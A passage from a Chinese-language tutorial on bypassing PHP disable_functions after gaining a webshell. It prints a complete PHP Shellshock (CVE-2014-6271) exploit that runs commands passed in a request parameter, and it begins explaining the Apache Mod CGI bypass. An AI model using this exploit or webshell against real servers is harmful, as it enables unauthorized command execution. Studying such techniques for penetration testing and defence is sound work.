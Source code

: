 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PD09reAwFPlTqV42mIicic0FAAT3cZ95wMvicnhMYXgLibeo3z5n7HhHoicOQ/640?wx_fmt=png)image-20210210122411149

我们使用蚁剑拿下 shell：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDPFa2bTiaK2kjESGWN47f4x6250LWXQDl48zVxVLrrbcWiapY34h6OSJg/640?wx_fmt=png)image-20210210122215376

AntSword 虚拟终端中已经集成了对 ShellShock 的利用，直接在虚拟终端执行命令即可绕过 disable_functions：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDVWUaDcn9MPXicG79En8W7ASYIibGqibPRmb5RaY3WDdbwYNEkbrdiaq1XA/640?wx_fmt=png)image-20210210122538026

也可以选择手动利用。在有权限的目录中（/var/tmp/exploit.php）上传以下利用脚本：

```
<?php # Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) # Google Dork: none # Date: 10/31/2014 # Exploit Author: Ryan King (Starfall) # Vendor Homepage: http://php.net # Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror # Version: 5.* (tested on 5.6.2) # Tested on: Debian 7 and CentOS 5 and 6 # CVE: CVE-2014-6271 function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283    $tmp = tempnam(".","data");    putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");    // In Safe Mode, the user may only alter environment variableswhose names    // begin with the prefixes supplied by this directive.    // By default, users will only be able to set environment variablesthat    // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty,    // PHP will let the user modify ANY environment variable!    //mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail    error_log('a',1);   $output = @file_get_contents($tmp);    @unlink($tmp);    if($output != "") return $output;    else return "No output, or not vuln."; } echo shellshock($_REQUEST["cmd"]); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDFsjwjen7ZTVKkPz4sxK0WUTXicmW8ObY1QdNz8icvl6ribjrVDCGDyBSQ/640?wx_fmt=png)image-20210210122804478

然后包含该脚本并传参执行命令即可：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PD5OkIlQffaAzCjgrpicTAvMicibGfazAEVVBbNiaQibribLeU8zblQIPHHByw/640?wx_fmt=png)image-20210210122920489

如上图，成功执行命令。

利用 Apache Mod CGI
-----------------

**使用条件：**

•Linux 操作系统 •Apache + PHP (apache 使用 apache_mod_php)•Apache 开启了 `cgi`、`rewrite`•Web 目录给了 `AllowOverride` 权限 • 当前目录可写

### 原理简述

早期的 Web 服务器，只能响应浏览器发来的 HTTP 静态资源的请求，并将存储在服务器中的静态资源返回给浏览器。随着 Web 技术的发展，逐渐出现了动态技术，但是 Web 服务器并不能够直接运行动态脚本，为了解决 Web 服务器与外部应用程序（CGI 程序）之间数据互通，于是出现了 CGI（Common Gateway Interface）通用网关接口。简单理解，可以认为 CGI 是 Web 服务器和运行在其上的应用程序进行 “交流” 的一种约定。

当遇到动态脚本请求时，Web 服务器主进程就会 Fork 创建出一个新的进程来启动 CGI 程序，运行外部 C 程序或 Perl、PHP 脚本等，也就是将动态脚本交给 CGI 程序来处理。启动 CGI 程序需要一个过程，如读取配置文件、加载扩展等。当 CGI 程序启动后会去解析动态脚本，然后将结果返回给 Web 服务器，最后由 Web 服务器将结果返回给客户端，之前 Fork 出来的进程也随之关闭。这样，每次用户请求动态脚本，Web 服务器都要重新 Fork 创建一个新进程去启动 CGI 程序，由 CGI 程序来处理动态脚本，处理完成后进程随之关闭，其效率是非常低下的。

而对于 Mod CGI，Web 服务器可以内置 Perl 解释器或 PHP 解释器。也就是说将这些解释器做成模块的方式，Web 服务器会在启动的时候就启动这些解释器。当有新的动态请求进来时，Web 服务器就是自己解析这些动态脚本，省得重新 Fork 一个进程，效率提高了。
